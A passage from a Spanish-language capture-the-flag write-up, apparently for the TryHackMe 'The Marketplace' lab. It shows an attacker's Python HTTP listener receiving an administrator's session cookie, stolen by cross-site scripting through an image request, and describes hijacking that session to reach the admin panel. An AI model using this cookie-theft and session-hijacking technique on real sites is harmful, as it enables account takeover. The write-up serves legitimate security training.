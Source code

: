 y obtenemos la cookie del usuario administrador por consola

```bash
~$> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.140.35 - - [17/Aug/2021 16:56:43] code 404, message File not found
10.10.140.35 - - [17/Aug/2021 16:56:43] "GET /imagen.jpg?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjkyMzc0MDN9.eyoUCIc4jmxJpVs82X9FhkFR5WhZFDrG-pk1zS0oWcM HTTP/1.1" 404 -
```

Una vez obtenida la cookie efectuamos un cookie hijacking, en mi caso, lo hago desde el apartado de almacenamiento de la página, pero tambien se puede hacer con herramientas como EditThisCookie

<p align="center">
<img src="/assets/images/thm-writeup-the-marketplace/img11.png">
</p>

Luego de esto, recargamos la página y vemos que se nos habilita una nueva sección de la web, el panel de administración

<p align="center">
<img src="/assets/images/thm-writeup-the-marketplace/img12.png">
</p>
